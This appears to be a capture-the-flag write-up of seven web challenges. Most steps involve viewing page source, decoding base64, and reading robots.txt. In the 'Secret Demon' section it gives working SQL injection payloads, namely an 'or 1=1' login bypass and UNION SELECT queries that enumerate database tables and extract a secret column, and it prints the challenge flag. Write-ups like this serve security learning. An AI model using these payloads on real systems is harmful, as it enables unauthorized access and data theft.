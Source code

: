 ## Challenges
1. Lorem lpsum
2. My First Website
3. My Second Website
4. Consoling
5. Takeover
6. Secret Deomn
7. Live App

## Lorem Ipsum
![](/web/Lorem%20Ipsum/challenge.png)

o	Step 1 : Go to the link
![](/web/Lorem%20Ipsum/1.png)

o	Step 2: view the source to find the flag
![](/web/Lorem%20Ipsum/2.png)


## My First Website
![](/web/My%20First%20Website/challenge.png)

•	My First Website

o	Step 1: Go to the link
![](/web/My%20First%20Website/1.png)

o	Step 2: Inspect element, there is a base 64 encoded string in the alt field
![](/web/My%20First%20Website/2.png)

o	Step 3: base 64 decode and convert from hex to get the flag
![](/web/My%20First%20Website/3.png)


## My Second Website
![](/web/My%20Second%20Website/challenge.png)

o	Step 1: Go to the link
![](/web/My%20Second%20Website/1.png)

o	Step 2: add robots.txt behind the url
![](/web/My%20Second%20Website/2.png)

o	Step 3: Go to the html page
![](/web/My%20Second%20Website/3.png)


## Consoling

![](/web/Consoling/challenge.png)

o	Step 1: Go to the link

![](/web/Consoling/1.png)

o	Step 2: looking at the source, there is 3 different html pages
![](/web/Consoling/2.png)

o	Step 3: going to the realflag.html page
![](/web/Consoling/3.png)

o	Step 4: viewing the source, it says totry listfunctions()
![](/web/Consoling/4.png)

o	Step 5: try list functions in the console
![](/web/Consoling/5.png)

o	Step 6: run the get flag and get key function to get the flag
![](/web/Consoling/6.png)



## Takeover
![](/web/Takeover/challenge.png)

o	Step 1: Go to the link

![](/web/Takeover/1.png)


o	Step 2: Go to robots.txt

![](/web/Takeover/2.png)


o	Step 3: Going to the flag.html page, 

![](/web/Takeover/3.png)


o	Step 4: search for the } as there are many strings which start with NYP{

![](/web/Takeover/4.1.png)

![](/web/Takeover/4.2.png)

![](/web/Takeover/4.3.png)

## Secret Demon
```
This was solved after the CTF
```
![](/web/Secret%20Demon/challenge.png)


o	Step 1: use the payload below as the username and any character in the password field to login
```
admin' or 1=1 #
```
![](/web/Secret%20Demon/before_login.png)
![](/web/Secret%20Demon/logged%20in.png)


o	Step 2: use the payload below in the search field to list all the tables in the database
```
'UNION SELECT table_schema, table_name, 1 From information_schema.tables#
```
![](/web/Secret%20Demon/tables.png)
![](/web/Secret%20Demon/sec_chal_tables.png)


o	Step 3: use the payload below in the search field to list the columns in security_challenge.oni_xyza table
```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns where table_name = 'oni_xyza'#
```
![](/web/Secret%20Demon/column.png)


o	Step 4: use the payload below in the search field to list the secret column in the oni_xyza table to get the flag
```
'UNION SELECT NULL, NULL, secret From security_challenge.oni_xyza #
```
![](/web/Secret%20Demon/flag.png)

```
flag: NYP{T4mAy0_i5_Qu33N}
```

## Live App
```
unsolved
```
![](/web/Live%20App/challenge.png)
